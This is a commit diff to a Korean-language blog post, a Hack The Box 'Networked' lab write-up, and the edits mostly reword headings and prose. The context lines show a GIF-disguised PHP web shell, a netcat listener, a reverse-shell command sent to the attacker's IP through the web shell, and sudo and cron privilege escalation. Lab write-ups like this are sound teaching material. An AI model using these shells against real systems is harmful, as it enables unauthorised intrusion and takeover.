

Before and after one commit to SystemaHacker/systemahacker.github.io, a Jekyll site: the page built from _posts/2019-09-24-networked.md, in a window 1280 px wide and 1400 px high, scrolled down 1879 px. Shown: the whole window at 90% size, without its empty margins (71-1128 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Edit post

````diff
--- a/_posts/2019-09-24-networked.md
+++ b/_posts/2019-09-24-networked.md
@@ -5,7 +5,7 @@ excerpt: "Hack The Box: Networked write-up"
 date: 2019-09-24 18:23:00 +0900
 author: SystemaHacker
 categories: [Write-up]
-tags: [HackTheBox, Pen-Testing, Write-up]
+tags: [HackTheBox, Pen-Testing, Write-Up]
 permalink: /writeup/networked
 ---
 
@@ -20,8 +20,8 @@ permalink: /writeup/networked
 |IP Address|10.10.10.146|
 
 ---
-## Nmap 스캔
-주어진 아이피 주소를 이용하여 네트워크 스캔을 진행하였다.
+## 조사
+주어진 아이피 주소를 이용하여 nmap 스캔을 진행하였다.
 
 ```
 attacker$ nmap -A -v -sV --script vuln 10.10.10.146
@@ -37,17 +37,15 @@ PORT    STATE  SERVICE VERSION
 Nmap done: 1 IP address (1 host up) scanned in 63.85 seconds
 ```
 
-포트 스캔이 완료된 후
-22번 포트에서 ssh서버
-80번 포트에서 아파치 웹 서버를 발견하였다.
-웹 서버에서 디렉터리들을 발견하였다.
+포트 스캔 결과 22번 포트에서 ssh서버, 80번 포트에서 아파치 웹 서버를 발견하였다.
+웹 서버에서 디렉터리들이 발견되었다.
 
 - /backup/
 - /icons/
 - /uploads/
 
 ---
-## 조사
+## 취약점 조사
 [http://10.10.10.146/backup](http://10.10.10.146/backup) 주소로 접속 해보니 백업 압축 파일을 발견하였다.
 압축 해제 후 나온 PHP 코드를 분석 하였다.
 
@@ -58,8 +56,10 @@ Nmap done: 1 IP address (1 host up) scanned in 63.85 seconds
 -rw-r--r--  1 attacker attacker 1331 Jul  2 21:45 upload.php
 ```
 
+소스코드 분석 결과 [upload.php](/assets{{ page.permalink }}/upload.php)에서 업로드 할 파일 종류를 검증하는 코드에 취약점이 있음을 확인할 수 있다.
+
 ---
-## PHP 웹쉘 코드 작성
+## PHP 웹쉘 업로드
 [upload.php](/assets{{ page.permalink }}/upload.php) 파일 분석 후 예상되는 이미지 업로드 취약점을 토대로 PHP 웹쉘을 작성하였다.
 코드 이전에 `GIF89a?` 를 입력함으로써 [이것이 이미지 파일이라고 인식시켜 악성코드를 업로드](https://asec.ahnlab.com/ko/18127/)할 것이다.
 
@@ -71,7 +71,7 @@ system( $_GET[cmd] );
 ?>
 ```
 
-물론 파일 확장자를 `.gif`로 만들어놓았다.
+이제 파일 확장자를 `.gif`로 변경한 후 업로드한다.
 
 ---
 ## 웹 권한 탈취
@@ -94,8 +94,8 @@ system( $_GET[cmd] );
 attacker$ nc -lvp 2021
 ```
 
-웹 권한의 쉘을 탈취하기 위해 필자(공격자) PC에서 netcat 리스닝 2021 포트를 열었다.
-PHP 웹쉘이 업로드 된 URL에 GET 요청으로 cmd 파라미터에 원하는 명령어를 전달하면.
+웹 권한의 쉘을 탈취하기 위해 공격자의 PC에서 nc를 이용하여 2021 포트를 열었다.
+PHP 웹쉘이 업로드 된 URL에 GET 요청으로 cmd 파라미터에 Reverse Shell을 연결하는 명령을 전달한다.
 
 ```
 http://10.10.10.146/uploads/10_10_12_226.gif?cmd=nc 10.10.12.226 2021 -c bash
@@ -115,7 +115,7 @@ apache
 apache 권한의 쉘을 탈취하였다.
 
 ---
-## 유저 권한 탈취
+## guly 권한 상승
 guly 권한을 탈취하기 위해 /home/guly 디렉토리를 살펴보자.
 ```
 apache$ ls -al /home/guly
@@ -151,7 +151,7 @@ drwxr-xr-x. 4 root   root     103 Jul  9 13:30 ..
 -r--r--r--. 1 root   root       2 Oct 30  2018 index.html
 ```
 2022번 포트로 리스닝 nc를 열어놓으면 guly 유저 권한으로 상승 가능할것이다.
-다음 Crontab 스크립트가 돌아올 3분동안 멍이나 때리고 있자.
+다음 Crontab 스크립트가 돌아올 3분동안 기다리자.
 
 ```
 Connection from 10.10.10.146:36230
@@ -171,7 +171,7 @@ guly$ cat user.txt
 ```
 
 ---
-## Root 권한 탈취
+## Root 권한 상승
 root 권한을 탈취하기 위해서 권한 상승에 도움을 줄만한 파일들을 탐색해보았다.
 ```
 guly$ sudo -l
@@ -214,7 +214,7 @@ done
 /sbin/ifup guly0
 ```
 
-마지막 취약한 부분을 이용하면 root 권한으로 bash shell을 실행 할 수 있을것같다.
+입력된 값이 검증되지 않고 실행되는 취약점을 이용해 root 권한으로 bash shell을 실행 할 수 있다.
 ```
 guly$ sudo /usr/local/sbin/changename.sh
 interface NAME:
@@ -237,9 +237,3 @@ Root flag 확인
 ```
 root$ cat /root/root.txt
 ```
-
----
-## 마치며
-HackTheBox.EU 플랫폼의 입문자용 난이도의 Machine으로 웹 서버 권한 shell 탈취.
-유저 권한으로 등록된 Crontab을 이용한 유저 권한 탈취 이후
-비밀번호 없이 실행할 수 있는 root 권한의 bash 스크립트를 이용한 권한 상승까지 복잡하지 않았다.
````
Also changed, not shown: other parts of _posts/2019-09-24-networked.md (+1 -1 lines).
